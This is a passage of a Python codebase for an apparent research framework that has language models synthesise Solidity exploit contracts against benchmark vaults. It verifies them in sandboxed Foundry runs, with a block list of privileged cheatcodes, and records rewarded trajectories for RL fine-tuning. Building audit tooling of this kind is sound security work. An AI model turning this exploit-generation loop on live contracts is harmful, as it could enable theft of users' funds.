    )
    payload = parse_model_response(target, response.text or "")
    payload.generator_engine = "gemini-flash"
    return payload

`

================================================================================
File: core/schemas.py
================================================================================
`
import time
from typing import Optional, List, Dict, Any
from pydantic import BaseModel, Field


class TargetProgram(BaseModel):
    """Represents a code snippet or contract subjected to security auditing."""
    name: str = Field(..., description="Unique identifier or contract name")
    source_code: str = Field(..., description="Raw source code of the target program")
    language: str = Field(default="solidity", description="Language of target (solidity, python, c)")
    invariants: List[str] = Field(default_factory=list, description="Formal security properties/invariants")
    trusted_harness_code: Optional[str] = Field(
        default=None,
        description="Immutable, trusted Foundry test harness for EVM state verification"
    )
    slither_findings: List[Dict[str, Any]] = Field(
        default_factory=list,
        description="Static analysis warnings extracted by Slither AST parser"
    )


class AttackHypothesis(BaseModel):
    """Reasoning hypothesis formulated by Auditor or Frontier Agent."""
    vulnerability_type: str = Field(..., description="E.g., Reentrancy, AccessControl, FirstDepositorInflation")
    reasoning_trace: str = Field(..., description="Chain of thought explaining the logical flaw")
    attack_vector: str = Field(..., description="Summary of how to trigger the vulnerability")
    affected_functions: List[str] = Field(default_factory=list)
    confidence_score: float = Field(default=1.0)


class ExploitPayload(BaseModel):
    """Executable proof-of-concept payload generated for verification."""
    target_name: str
    hypothesis: AttackHypothesis
    test_code: str = Field(..., description="Executable exploit code (ExploitModule contract)")
    test_filename: str = Field(default="ExploitModule.sol")
    attempt_number: int = Field(default=1)
    generator_engine: str = Field(default="local-gpu")  # e.g., "gemini-flash", "qwen-audit", "qwen-dev"


class ExecutionResult(BaseModel):
    """Structured result collected from the isolated Modal sandbox container."""
    return_code: int
    stdout: str
    stderr: str
    execution_time_sec: float
    timed_out: bool = False
    invariant_violated: bool = False
    structured_json: Optional[Dict[str, Any]] = None
    test_status: Optional[str] = None       # "Success" or "Failure"
    revert_reason: Optional[str] = None     # Extracted EVM revert / panic reason
    decoded_logs: List[str] = Field(default_factory=list)
    cheatcode_detected: bool = False
    verified_by_harness: bool = False
    reproducibility_confirmed: bool = False
    gas_used: Optional[int] = None
    state_delta: Dict[str, Any] = Field(default_factory=dict)


class VerificationVerdict(BaseModel):
    """Final verified assessment with RLVR computed reward."""
    target_name: str
    is_verified: bool
    reward_score: float = Field(..., description="Calculated RLVR reward (-1.0 to 1.0)")
    vulnerability_type: str
    poc_code: str
    feedback: str
    state_delta_verified: bool = False
    reproducible: bool = False
    refinement_iteration: int = 1


class RLVRTrajectory(BaseModel):
    """
    Complete ground-truth trajectory pair formatted for GRPO / PPO policy training.
    Accumulated in Modal Volume to fine-tune the reasoning model on verified outputs.
    """
    trajectory_id: str
    timestamp: float = Field(default_factory=time.time)
    target_name: str
    target_code: str
    slither_hints: List[Dict[str, Any]]
    prompt_used: str
    hypothesis: AttackHypothesis
    generated_exploit: str
    reward: float
    is_verified: bool
    reproduced: bool
    feedback_trace: str

`

================================================================================
File: modal_app.py
================================================================================
`
import os
import sys
import json
import modal

# Ensure local core and sandbox packages are in Python path
sys.path.insert(0, os.path.dirname(os.path.abspath(__file__)))

from core.config import config
from core.schemas import (
    TargetProgram,
    ExploitPayload,
    ExecutionResult,
    VerificationVerdict,
    AttackHypothesis,
    RLVRTrajectory
)
from core.evaluator import evaluate_execution_trace, create_trajectory_record
from sandbox.runner import (
    sandbox_image,
    run_payload_in_sandbox,
    run_slither_analysis,
    verify_independent_replay
)
from core.llm_generator import (
    build_analysis_prompt,
    build_refinement_prompt,
    parse_model_response,
    synthesize_exploit_gemini,
    SOLIDITY_SYSTEM_PROMPT,
    AUDIT_DETECTOR_SYSTEM_PROMPT
)

# Initialize Modal Application
app = modal.App(name=config.APP_NAME)

# Persistent volume for caching model weights and GRPO training trajectories
model_volume = modal.Volume.from_name(config.MODEL_VOLUME_NAME, create_if_missing=True)

# GPU Image for reasoning and exploit synthesis engine
gpu_image = (
    modal.Image.debian_slim(python_version="3.10")
    .pip_install(
        "torch",
        "transformers>=4.40.0",
        "accelerate>=0.28.0",
        "pydantic>=2.0.0",
        "google-genai>=2.0.0",
    )
    .add_local_python_source("core", "sandbox")
)


# =============================================================================
# 1. PRODUCTION AUDIT AGENT (H100 - 30B Qtum Web3 Security Model)
# =============================================================================
@app.cls(
    gpu=config.AUDIT_GPU_TYPE,
    image=gpu_image,
    volumes={"/vol/models": model_volume},
    timeout=1200,
)
class ProductionAuditAgent:
    """
    Production Web3 security reasoning agent on Modal H100.
    Operates in dual-mode:
    1. Native security auditor: detects vulnerabilities and outputs JSON finding arrays.
    2. Exploit synthesizer: generates executable unprivileged ExploitModule.
    """
    @modal.enter()
    def load_model(self):
        import os
        import torch
        from transformers import AutoModelForCausalLM, AutoTokenizer
        
        cache_dir = config.MODEL_CACHE_DIR
        os.makedirs(cache_dir, exist_ok=True)
        
        print(f"[*] Initializing Production 30B Model on Modal {config.AUDIT_GPU_TYPE}: {config.AUDIT_GPU_MODEL}")
        self.tokenizer = AutoTokenizer.from_pretrained(
            config.AUDIT_GPU_MODEL,
            cache_dir=cache_dir,
            trust_remote_code=True
        )
        self.model = AutoModelForCausalLM.from_pretrained(
            config.AUDIT_GPU_MODEL,
            torch_dtype=torch.bfloat16,
            device_map="auto",
            cache_dir=cache_dir,
            trust_remote_code=True
        )
        try:
            model_volume.commit()
            print("[✓] Model weights committed to persistent Modal Volume.")
        except Exception as e:
            print(f"[!] Volume commit notice: {e}")

    @modal.method()
    def audit_target_contract(self, target_dict: dict) -> list:
        """Native role: outputs structured JSON findings list."""
        import json
        import torch
        from core.schemas import TargetProgram
        from core.llm_generator import AUDIT_DETECTOR_SYSTEM_PROMPT, build_auditor_prompt

        target = TargetProgram(**target_dict)
        prompt = build_auditor_prompt(target)
        messages = [
            {"role": "system", "content": AUDIT_DETECTOR_SYSTEM_PROMPT},
            {"role": "user", "content": prompt}
        ]
        text = self.tokenizer.apply_chat_template(messages, tokenize=False, add_generation_prompt=True)
        inputs = self.tokenizer([text], return_tensors="pt").to("cuda")

        with torch.no_grad():
            outputs = self.model.generate(
                **inputs,
                max_new_tokens=1536,
                temperature=0.2,
                do_sample=True,
                pad_token_id=self.tokenizer.eos_token_id
            )
        generated_ids = [output_ids[len(input_ids):] for input_ids, output_ids in zip(inputs.input_ids, outputs)]
        response_text = self.tokenizer.batch_decode(generated_ids, skip_special_tokens=True)[0]
        
        try:
            start_idx = response_text.find("[")
            end_idx = response_text.rfind("]")
            if start_idx != -1 and end_idx != -1 and end_idx > start_idx:
                return json.loads(response_text[start_idx : end_idx + 1])
        except Exception:
            pass
        return [{"title": "Detected Vulnerability", "category": "LogicFlaw", "description": response_text[:300]}]

    @modal.method()
    def generate_solidity_exploit(self, target_dict: dict, temperature: float = 0.3) -> dict:
        import torch
        from core.schemas import TargetProgram
        from core.llm_generator import SOLIDITY_SYSTEM_PROMPT, build_analysis_prompt, parse_model_response

        target = TargetProgram(**target_dict)
        user_prompt = build_analysis_prompt(target)
        messages = [
            {"role": "system", "content": SOLIDITY_SYSTEM_PROMPT},
            {"role": "user", "content": user_prompt}
        ]
        text = self.tokenizer.apply_chat_template(messages, tokenize=False, add_generation_prompt=True)
        inputs = self.tokenizer([text], return_tensors="pt").to("cuda")

        with torch.no_grad():
            outputs = self.model.generate(
                **inputs,
                max_new_tokens=2048,
                temperature=temperature,
                do_sample=(temperature > 0.0),
                pad_token_id=self.tokenizer.eos_token_id
            )
        generated_ids = [output_ids[len(input_ids):] for input_ids, output_ids in zip(inputs.input_ids, outputs)]
        response_text = self.tokenizer.batch_decode(generated_ids, skip_special_tokens=True)[0]
        return parse_model_response(target, response_text).model_dump()

    @modal.method()
    def refine_solidity_exploit(self, target_dict: dict, failed_code: str, error_trace: str) -> dict:
        import torch
        from core.schemas import TargetProgram
        from core.llm_generator import SOLIDITY_SYSTEM_PROMPT, build_refinement_prompt, parse_model_response

        target = TargetProgram(**target_dict)
        prompt = build_refinement_prompt(target, failed_code, error_trace)
        messages = [
            {"role": "system", "content": SOLIDITY_SYSTEM_PROMPT},
            {"role": "user", "content": prompt}
        ]
        text = self.tokenizer.apply_chat_template(messages, tokenize=False, add_generation_prompt=True)
        inputs = self.tokenizer([text], return_tensors="pt").to("cuda")

        with torch.no_grad():
            outputs = self.model.generate(
                **inputs,
                max_new_tokens=2048,
                temperature=0.1,
                do_sample=True,
                pad_token_id=self.tokenizer.eos_token_id
            )
        generated_ids = [output_ids[len(input_ids):] for input_ids, output_ids in zip(inputs.input_ids, outputs)]
        response_text = self.tokenizer.batch_decode(generated_ids, skip_special_tokens=True)[0]
        return parse_model_response(target, response_text, attempt_idx=99).model_dump()


# =============================================================================
# 2. DEV SMOKE-TEST AGENT (T4 - Lightweight 1.5B Model for cheap CI/CD)
# =============================================================================
@app.cls(
    gpu=config.DEV_GPU_TYPE,
    image=gpu_image,
    volumes={"/vol/models": model_volume},
    timeout=600,
)
class DevReasoningAgent:
    """Lightweight dev reasoning agent on Modal T4 (Qwen2.5-Coder-1.5B-Instruct)."""
    @modal.enter()
    def load_model(self):
        import os
        import torch
        from transformers import AutoModelForCausalLM, AutoTokenizer
        
        cache_dir = config.MODEL_CACHE_DIR
        os.makedirs(cache_dir, exist_ok=True)
        
        print(f"[*] Initializing Dev Agent on Modal {config.DEV_GPU_TYPE}: {config.DEV_GPU_MODEL}")
        self.tokenizer = AutoTokenizer.from_pretrained(config.DEV_GPU_MODEL, cache_dir=cache_dir)
        self.model = AutoModelForCausalLM.from_pretrained(
            config.DEV_GPU_MODEL,
            torch_dtype=torch.float16,
            device_map="auto",
            cache_dir=cache_dir
        )
        try:
            model_volume.commit()
        except Exception:
            pass

    @modal.method()
    def generate_solidity_exploit(self, target_dict: dict, temperature: float = 0.3) -> dict:
        import torch
        from core.schemas import TargetProgram
        from core.llm_generator import SOLIDITY_SYSTEM_PROMPT, build_analysis_prompt, parse_model_response

        target = TargetProgram(**target_dict)
        user_prompt = build_analysis_prompt(target)
        messages = [
            {"role": "system", "content": SOLIDITY_SYSTEM_PROMPT},
            {"role": "user", "content": user_prompt}
        ]
        text = self.tokenizer.apply_chat_template(messages, tokenize=False, add_generation_prompt=True)
        inputs = self.tokenizer([text], return_tensors="pt").to("cuda")

        with torch.no_grad():
            outputs = self.model.generate(
                **inputs,
                max_new_tokens=2048,
                temperature=temperature,
                do_sample=(temperature > 0.0),
                pad_token_id=self.tokenizer.eos_token_id
            )
        generated_ids = [output_ids[len(input_ids):] for input_ids, output_ids in zip(inputs.input_ids, outputs)]
        response_text = self.tokenizer.batch_decode(generated_ids, skip_special_tokens=True)[0]
        return parse_model_response(target, response_text).model_dump()

    @modal.method()
    def refine_solidity_exploit(self, target_dict: dict, failed_code: str, error_trace: str) -> dict:
        import torch
        from core.schemas import TargetProgram
        from core.llm_generator import SOLIDITY_SYSTEM_PROMPT, build_refinement_prompt, parse_model_response

        target = TargetProgram(**target_dict)
        prompt = build_refinement_prompt(target, failed_code, error_trace)
        messages = [
            {"role": "system", "content": SOLIDITY_SYSTEM_PROMPT},
            {"role": "user", "content": prompt}
        ]
        text = self.tokenizer.apply_chat_template(messages, tokenize=False, add_generation_prompt=True)
        inputs = self.tokenizer([text], return_tensors="pt").to("cuda")

        with torch.no_grad():
            outputs = self.model.generate(
                **inputs,
                max_new_tokens=2048,
                temperature=0.1,
                do_sample=True,
                pad_token_id=self.tokenizer.eos_token_id
            )
        generated_ids = [output_ids[len(input_ids):] for input_ids, output_ids in zip(inputs.input_ids, outputs)]
        response_text = self.tokenizer.batch_decode(generated_ids, skip_special_tokens=True)[0]
        return parse_model_response(target, response_text, attempt_idx=99).model_dump()


# =============================================================================
# 3. EPHEMERAL CPU WORKERS (Foundry / Slither / Replay Sandbox)
# =============================================================================
@app.function(
    image=sandbox_image,
    timeout=60,
    cpu=config.SANDBOX_CPU_CORES,
    memory=config.SANDBOX_MEMORY_MB,
)
def run_slither_remote(target_dict: dict) -> list:
    """Executes Slither AST static analysis on Modal CPU worker."""
    target = TargetProgram(**target_dict)
    return run_slither_analysis(target)


@app.function(
    image=sandbox_image,
    timeout=config.SANDBOX_TIMEOUT_SEC,
    cpu=config.SANDBOX_CPU_CORES,
    memory=config.SANDBOX_MEMORY_MB,
)
def verify_exploit_remote(target_dict: dict, payload_dict: dict) -> dict:
    """Compiles Solidity exploit and executes forge test --offline --json -vvvv in ephemeral EVM."""
    target = TargetProgram(**target_dict)
    payload = ExploitPayload(**payload_dict)
    
    # 1. Execute in Foundry EVM sandbox
    raw_result = run_payload_in_sandbox(target, payload)
    
    # 2. Evaluate multi-factor verdict
    verdict = evaluate_execution_trace(payload, raw_result)
    return verdict.model_dump()


@app.function(
    image=sandbox_image,
    timeout=config.SANDBOX_TIMEOUT_SEC,
    cpu=config.SANDBOX_CPU_CORES,
    memory=config.SANDBOX_MEMORY_MB,
)
def verify_replay_remote(target_dict: dict, payload_dict: dict) -> bool:
    """Independent second run in a fresh ephemeral EVM container to guarantee reproducibility."""
    target = TargetProgram(**target_dict)
    payload = ExploitPayload(**payload_dict)
    return verify_independent_replay(target, payload)


@app.function(
    image=sandbox_image,
    volumes={"/vol/models": model_volume},
    timeout=60,
)
def record_trajectory_remote(trajectory_dict: dict) -> str:
    """Saves verified execution trajectory pair to persistent volume for GRPO training."""
    traj_dir = config.TRAJECTORY_DIR
    os.makedirs(traj_dir, exist_ok=True)
    traj_id = trajectory_dict.get("trajectory_id", "unknown")
    filepath = os.path.join(traj_dir, f"traj_{traj_id}.json")
    with open(filepath, "w", encoding="utf-8") as f:
        json.dump(trajectory_dict, f, indent=2)
    try:
        model_volume.commit()
    except Exception:
        pass
    return filepath


# =============================================================================
# 4. CLI ENTRYPOINT: AEGIS-RLVR 2.0 ORCHESTRATOR
# =============================================================================
@app.local_entrypoint()
def main(
    mode: str = "audit",
    target_name: str = "Vault",
    generator: str = "local",
    num_candidates: int = 3,
    max_rounds: int = 2
):
    """
    Aegis-RLVR 2.0 CLI orchestrator on Modal.
    Usage:
      Production Mode (H100 + Slither + Parallel Map):
        modal run modal_app.py --mode audit --target-name ERC4626Vault --num-candidates 5

      Gemini Flash Mode (Frontier API Reasoning + Modal Foundry Execution):
        modal run modal_app.py --generator gemini --target-name ERC4626Vault --num-candidates 3

      Dev Mode (T4 GPU + Ephemeral Sandboxes):
        modal run modal_app.py --mode dev --target-name Vault
    """
    print("\n" + "=" * 78)
    print("🛡️  AEGIS-RLVR 2.0: Autonomous Multi-Agent Web3 Security Framework")
    print(f"📦 Model Persistent Volume  : '{config.MODEL_VOLUME_NAME}'")
    print(f"⚙️  Execution Profile        : '{mode.upper()}' (Generator: {generator.upper()})")
    print(f"🎯 Target Contract           : '{target_name}'")
    print(f"⚡ Parallel Hypotheses (.map): {num_candidates}")
    print("=" * 78)

    # 1. Resolve Solidity target contract and trusted verification harness
    benchmarks_dir = os.path.join(os.path.dirname(__file__), "benchmarks", "targets", "solidity")
    target_path = os.path.join(benchmarks_dir, f"{target_name}.sol")
    harness_path = os.path.join(benchmarks_dir, f"{target_name}Harness.t.sol")

    if not os.path.exists(target_path):
        raise FileNotFoundError(f"Target contract file not found: {target_path}")
    if not os.path.exists(harness_path):
        raise FileNotFoundError(f"Verification harness file not found: {harness_path}")

    with open(target_path, "r", encoding="utf-8") as f:
        target_source = f.read()

    with open(harness_path, "r", encoding="utf-8") as f:
        harness_source = f.read()

    invariants_map = {
        "Vault": ["address(vault).balance >= balances[victim] (Depositor Solvency)"],
        "ERC4626Vault": [
            "victimShares > 0 (No zero-share deposit robbery)",
            "vault.convertToAssets(victimShares) >= 0.95 * VICTIM_DEPOSIT (Dilution Protection)"
        ]
    }
    target_invariants = invariants_map.get(target_name, ["Security invariant intact"])

    target = TargetProgram(
        name=target_name,
        source_code=target_source,
        language="solidity",
        invariants=target_invariants,
        trusted_harness_code=harness_source
    )

    print(f"\n[1] Target loaded: '{target.name}.sol'")
    print(f"    Invariants     : {target.invariants}")
    print(f"    Solidity Vers  : {config.SOLC_VERSION}")

    # 2. Phase 1: Static Analysis Layer (Slither AST Taint Analysis)
    if config.ENABLE_SLITHER:
        print("\n[Phase 1] Running Slither Static Analysis on Modal CPU Worker...")
        try:
            slither_findings = run_slither_remote.remote(target.model_dump())
            target.slither_findings = slither_findings
            print(f"[✓] Slither extracted {len(slither_findings)} AST detector signal(s):")
            for sf in slither_findings:
                print(f"    - [{sf.get('impact')}] {sf.get('check')}: {sf.get('description')[:70]}...")
        except Exception as e:
            print(f"[!] Slither notice: {e}")

    # 3. Phase 2: Hypothesis Formulation & Multi-Candidate Exploit Synthesis
    print(f"\n[Phase 2] Synthesizing {num_candidates} parallel exploit hypotheses...")
    candidate_payloads = []

    if generator.lower() == "gemini":
        print("[+] Generator: Gemini 2.5 Flash (Frontier Reasoning API)")
        for i in range(1, num_candidates + 1):
            p = synthesize_exploit_gemini(target)
            p.attempt_number = i
            candidate_payloads.append(p)
            print(f"    [Candidate #{i}] Hypothesis: {p.hypothesis.vulnerability_type} (Gemini API)")
    else:
        if mode.lower() == "audit":
            print(f"[+] Generator: Production Tier ({config.AUDIT_GPU_MODEL} on Modal H100)")
            llm_agent = ProductionAuditAgent()
            # Optional native Qwen-Audit scan
            try:
                findings = llm_agent.audit_target_contract.remote(target.model_dump())
                print(f"[+] Qwen-Audit detected {len(findings)} vulnerability finding(s):")
                for f_item in findings[:3]:
                    print(f"    - [{f_item.get('severity', 'Med')}] {f_item.get('title')}")
            except Exception as e:
                print(f"[!] Audit scan notice: {e}")
        else:
            print(f"[+] Generator: Dev Tier ({config.DEV_GPU_MODEL} on Modal T4)")
            llm_agent = DevReasoningAgent()

        temperatures = [0.2 + (i * 0.2) for i in range(num_candidates)]
        for i, temp in enumerate(temperatures, 1):
            p_dict = llm_agent.generate_solidity_exploit.remote(target.model_dump(), temperature=temp)
            p = ExploitPayload(**p_dict)
            p.attempt_number = i
            candidate_payloads.append(p)
            print(f"    [Candidate #{i}] Hypothesis: {p.hypothesis.vulnerability_type} (t={temp:.2f})")

    # 4. Phase 3: Distributed Execution in Parallel Foundry Sandboxes (.map)
    print(f"\n[Phase 3] Dispatching {len(candidate_payloads)} concurrent Foundry sandboxes via Modal .map()...")
    target_dicts = [target.model_dump()] * len(candidate_payloads)
    payload_dicts = [p.model_dump() for p in candidate_payloads]

    verdict_dicts = list(verify_exploit_remote.map(target_dicts, payload_dicts))
    verdicts = [VerificationVerdict(**vd) for vd in verdict_dicts]

    for idx, (p, v) in enumerate(zip(candidate_payloads, verdicts), 1):
        status_icon = "✅ BREACHED" if v.is_verified else "❌ REJECTED"
        print(f"    [Worker #{idx}] {status_icon} | Reward: {v.reward_score:+.2f} | {v.feedback[:80]}...")

    verified_verdict = next((v for v in verdicts if v.is_verified), None)
    verified_payload = next((p for p, v in zip(candidate_payloads, verdicts) if v.is_verified), None)

    # 5. Phase 4: Closed-Loop Multi-Round Refinement (if initial batch failed)
    current_round = 1
    while not verified_verdict and current_round <= max_rounds:
        print(f"\n[Phase 4 - Round {current_round}/{max_rounds}] Refining top candidate from EVM trace...")
        best_cand, best_verd = max(zip(candidate_payloads, verdicts), key=lambda cv: cv[1].reward_score)
        print(f"    Top candidate: {best_cand.hypothesis.vulnerability_type} (Score: {best_verd.reward_score:+.2f})")
        print(f"    EVM trace: {best_verd.feedback[:200]}...")

        if generator.lower() == "gemini":
            from core.llm_generator import build_refinement_prompt, extract_solidity_code
            from google import genai
            client = genai.Client()
            ref_prompt = build_refinement_prompt(target, best_cand.test_code, best_verd.feedback)
            resp = client.models.generate_content(
                model=config.GEMINI_MODEL,
                contents=ref_prompt,
                config={"system_instruction": SOLIDITY_SYSTEM_PROMPT, "temperature": 0.1}
            )
            refined_payload = parse_model_response(target, resp.text or "", attempt_idx=current_round + 1)
        else:
            ref_dict = llm_agent.refine_solidity_exploit.remote(
                target.model_dump(),
                best_cand.test_code,
                best_verd.feedback
            )
            refined_payload = ExploitPayload(**ref_dict)
            refined_payload.attempt_number = current_round + 1

        print(f"[+] Re-testing refined candidate in Foundry sandbox...")
        res_dict = verify_exploit_remote.remote(target.model_dump(), refined_payload.model_dump())
        cand_verdict = VerificationVerdict(**res_dict)
        if cand_verdict.is_verified:
            verified_verdict = cand_verdict
            verified_payload = refined_payload
            break
        current_round += 1

    final_verdict = verified_verdict or verdicts[0]
    final_payload = verified_payload or candidate_payloads[0]

    # 6. Phase 5: Independent Replay Verification (Guaranteed Reproducibility)
    reproduced = False
    if final_verdict.is_verified:
        print("\n[Phase 5] Executing Independent Replay in a fresh, isolated EVM container...")
        reproduced = verify_replay_remote.remote(target.model_dump(), final_payload.model_dump())
        final_verdict.reproducible = reproduced
        if reproduced:
            final_verdict.reward_score = config.REWARD_INVARIANT_BREACH
            print("[✓] REPRODUCIBILITY CONFIRMED: 100% deterministic invariant breach across independent runs!")
        else:
            final_verdict.reward_score = config.REWARD_BREACH_NO_REPLAY
            print("[!] Flaky run detected: Replay did not reproduce invariant breach.")

    # 7. Phase 6: Trajectory Recording for RLVR / GRPO Policy Fine-Tuning
    print("\n[Phase 6] Recording trajectory pair into Modal Volume for RLVR Training...")
    try:
        traj_record = create_trajectory_record(target, final_payload, final_verdict)
        saved_path = record_trajectory_remote.remote(traj_record.model_dump())
        print(f"[✓] Trajectory committed: {saved_path} (Reward: {final_verdict.reward_score:+.2f})")
    except Exception as e:
        print(f"[!] Trajectory recording notice: {e}")

    print("\n" + "=" * 78)
    status = f"✅ VERIFIED EXPLOIT ({final_verdict.vulnerability_type})" if final_verdict.is_verified else "❌ REJECTED"
    print(f"AEGIS-RLVR 2.0 VERDICT    : [{status}]")
    print(f"Vulnerability Type         : {final_verdict.vulnerability_type}")
    print(f"RLVR Ground-Truth Reward   : {final_verdict.reward_score:+.2f}")
    print(f"Independent EVM Replay     : {'CONFIRMED (100% Deterministic)' if final_verdict.reproducible else 'FAILED / UNCONFIRMED'}")
    print(f"State Delta Verified       : {final_verdict.state_delta_verified}")
    print(f"Sandbox Feedback           : {final_verdict.feedback}")
    print("=" * 78 + "\n")


if __name__ == "__main__":
    main()

`

================================================================================
File: requirements.txt
================================================================================
`
modal>=1.5.0
pydantic>=2.6.0
rich>=13.7.0
requests>=2.31.0

`

================================================================================
File: sandbox/__init__.py
================================================================================
`
"""Sandbox environment definitions for Modal."""

`

================================================================================
File: sandbox/prebake_solc.py
================================================================================
`
#!/usr/bin/env python3
"""
Pre-bakes and verifies solc compiler binaries for Solidity 0.8.19 - 0.8.28.
Downloads official Linux amd64 binaries from binaries.soliditylang.org,
validates cryptographic SHA256 checksums, and configures them for both
Foundry (svm) and Slither (solc-select) with zero network roundtrips.
"""
import hashlib
import json
import os
import sys
import urllib.request

TARGET_VERSIONS = [f"0.8.{i}" for i in range(19, 29)]
LIST_URL = "https://binaries.soliditylang.org/linux-amd64/list.json"
BASE_BINARY_URL = "https://binaries.soliditylang.org/linux-amd64/"


def download_and_verify_solc():
    print(f"[*] Fetching Solidity release list from {LIST_URL}...")
    req = urllib.request.Request(LIST_URL, headers={"User-Agent": "Mozilla/5.0 (Aegis-RLVR Prebake)"})
    try:
        with urllib.request.urlopen(req, timeout=30) as resp:
            data = json.loads(resp.read().decode("utf-8"))
    except Exception as e:
        print(f"[!] Failed to fetch solc manifest: {e}")
        sys.exit(1)

    builds_by_version = {}
    for b in data.get("builds", []):
        v = b.get("version")
        if v in TARGET_VERSIONS and v not in builds_by_version:
            builds_by_version[v] = b

    print(f"[*] Found {len(builds_by_version)} target solc versions to pre-bake.")

    for v in TARGET_VERSIONS:
        build_info = builds_by_version.get(v)
        if not build_info:
            print(f"[!] Warning: No build info found for solc {v}")
            continue

        rel_path = build_info["path"]
        expected_sha = build_info.get("sha256", "").lower().replace("0x", "")
        binary_url = BASE_BINARY_URL + rel_path

        # Target directory for Foundry svm: ~/.svm/{version}/solc-{version}
        svm_dir = f"/root/.svm/{v}"
        os.makedirs(svm_dir, exist_ok=True)
        dest_binary = os.path.join(svm_dir, f"solc-{v}")

        # Target directory for solc-select: ~/.solc-select/artifacts/solc-{v}/solc-{v}
        solc_select_dir = f"/root/.solc-select/artifacts/solc-{v}"
        os.makedirs(solc_select_dir, exist_ok=True)
        solc_select_binary = os.path.join(solc_select_dir, f"solc-{v}")

        # Check if already present and verified
        if os.path.exists(dest_binary):
            with open(dest_binary, "rb") as f:
                existing_sha = hashlib.sha256(f.read()).hexdigest()
            if existing_sha == expected_sha:
                print(f"[✓] solc {v} already cached and verified (SHA256: {existing_sha[:12]}...)")
                continue

        print(f"[+] Downloading solc {v} from {binary_url}...")
        bin_req = urllib.request.Request(binary_url, headers={"User-Agent": "Mozilla/5.0"})
        with urllib.request.urlopen(bin_req, timeout=60) as resp:
            binary_bytes = resp.read()

        # Cryptographic Checksum Verification (Point 6)
        computed_sha = hashlib.sha256(binary_bytes).hexdigest()
        if expected_sha and computed_sha != expected_sha:
            raise ValueError(
                f"FATAL: Checksum mismatch for solc {v}!\n"
                f"Expected: {expected_sha}\n"
                f"Computed: {computed_sha}"
            )

        # Write to Foundry svm location
        with open(dest_binary, "wb") as f:
            f.write(binary_bytes)
        os.chmod(dest_binary, 0o755)

        # Link or copy to solc-select location
        try:
            if not os.path.exists(solc_select_binary):
                os.symlink(dest_binary, solc_select_binary)
        except Exception:
            with open(solc_select_binary, "wb") as f:
                f.write(binary_bytes)
            os.chmod(solc_select_binary, 0o755)

        print(f"[✓] solc {v} installed & verified [SHA256: {computed_sha[:12]}...]")

    print("[*] All target solc versions successfully pre-baked and verified.")


if __name__ == "__main__":
    download_and_verify_solc()

`

================================================================================
File: sandbox/runner.py
================================================================================
`
import os
import json
import shutil
import subprocess
import tempfile
import time
import modal
from core.schemas import ExploitPayload, ExecutionResult, TargetProgram
from core.config import config

# Path to pre-baking script
PREBAKE_SCRIPT_PATH = os.path.join(os.path.dirname(os.path.abspath(__file__)), "prebake_solc.py")

# Optimized, Pinned Foundry + Solc + OpenZeppelin + Slither Execution Image for Modal
sandbox_image = (
    modal.Image.debian_slim(python_version="3.10")
    .apt_install("curl", "git", "build-essential", "ca-certificates")
    # Copy verified solc prebake script into image
    .add_local_file(PREBAKE_SCRIPT_PATH, "/opt/prebake_solc.py", copy=True)
    .run_commands(
        # 1. Install Foundry toolchain (forge, cast, anvil)
        "curl -sSfL https://foundry.paradigm.xyz | bash",
        "/root/.foundry/bin/foundryup",
        # 2. Pre-bake verified solc compilers (0.8.19 - 0.8.28) with SHA256 validation
        "python3 /opt/prebake_solc.py",
        # 3. Pre-bake pinned standard libraries: forge-std (v1.9.5) and openzeppelin-contracts (v5.0.2)
        "mkdir -p /opt/foundry_base/lib && cd /opt/foundry_base/lib && "
        "git clone --depth 1 -b v1.9.5 https://github.com/foundry-rs/forge-std.git forge-std && "
        "git clone --depth 1 -b v5.0.2 https://github.com/OpenZeppelin/openzeppelin-contracts.git openzeppelin-contracts",
    )
    .env({"PATH": "/root/.foundry/bin:$PATH"})
    .pip_install("pydantic>=2.0.0", "slither-analyzer", "solc-select")
    .add_local_python_source("core", "sandbox")
)

FOUNDRY_TOML_CONTENT = """[profile.default]
src = "src"
test = "test"
out = "out"
libs = ["lib"]
solc_version = "0.8.20"
optimizer = true
optimizer_runs = 200
offline = true
fs_permissions = [{ access = "read-write", path = "./" }]
remappings = [
    "forge-std/=lib/forge-std/src/",
    "@openzeppelin/contracts/=lib/openzeppelin-contracts/contracts/",
    "@openzeppelin/=lib/openzeppelin-contracts/"
]
"""

# Prohibited cheatcode patterns to isolate exploit execution from harness privileges
PROHIBITED_CHEATCODES = [
    "forge-std/Test.sol",
    "forge-std/Vm.sol",
    "0x7109709ECfa91a80626fF3989D68f67F5b1DD12D",
    "vm.deal",
    "vm.prank",
    "vm.store",
    "vm.warp",
    "vm.roll",
    "vm.mockCall",
    "vm.expectRevert",
    "vm.load",
    "vm.etch",
    "vm.sign",
    "Vm constant vm",
    "Vm public vm"
]


def detect_prohibited_cheatcodes(code: str) -> bool:
    """Detects attempts by candidate ExploitModule to use privileged Foundry cheatcodes."""
    for pattern in PROHIBITED_CHEATCODES:
        if pattern in code:
            return True
    return False


def parse_forge_output(output_text: str):
    """Parses forge test --json structured output for status, revert reason, and logs."""
    structured_data = None
    test_status = None
    revert_reason = None
    decoded_logs = []

    start_idx = output_text.find("{")
    end_idx = output_text.rfind("}")

    if start_idx != -1 and end_idx != -1 and end_idx > start_idx:
        try:
            structured_data = json.loads(output_text[start_idx : end_idx + 1])
        except Exception:
            pass

    if structured_data and isinstance(structured_data, dict):
        for _, suite_val in structured_data.items():
            if isinstance(suite_val, dict):
                test_results = suite_val.get("test_results", {})
                for test_sig, test_info in test_results.items():
                    if isinstance(test_info, dict):
                        status = test_info.get("status")
                        reason = test_info.get("reason")
                        logs = test_info.get("decoded_logs", [])
                        if logs:
                            decoded_logs.extend(logs)
                        if "testExploit" in test_sig or test_status is None:
                            test_status = status
                            revert_reason = reason

    return structured_data, test_status, revert_reason, decoded_logs


def run_slither_analysis(target: TargetProgram) -> list:
    """
    Executes Slither AST / taint analysis on the target contract.
    Returns structured list of static vulnerability warnings to prime reasoning models.
    """
    with tempfile.TemporaryDirectory() as tmpdir:
        src_dir = os.path.join(tmpdir, "src")
        os.makedirs(src_dir, exist_ok=True)
        
        target_path = os.path.join(src_dir, f"{target.name}.sol")
        with open(target_path, "w", encoding="utf-8") as f:
            f.write(target.source_code)
            
        json_out = os.path.join(tmpdir, "slither.json")
        cmd = ["slither", target_path, "--json", json_out, "--solc-solcs-select", config.SOLC_VERSION]
        
        try:
            subprocess.run(cmd, cwd=tmpdir, capture_output=True, text=True, timeout=30)
            if os.path.exists(json_out):
                with open(json_out, "r", encoding="utf-8") as jf:
                    data = json.load(jf)
                    results = data.get("results", {}).get("detectors", [])
                    extracted = []
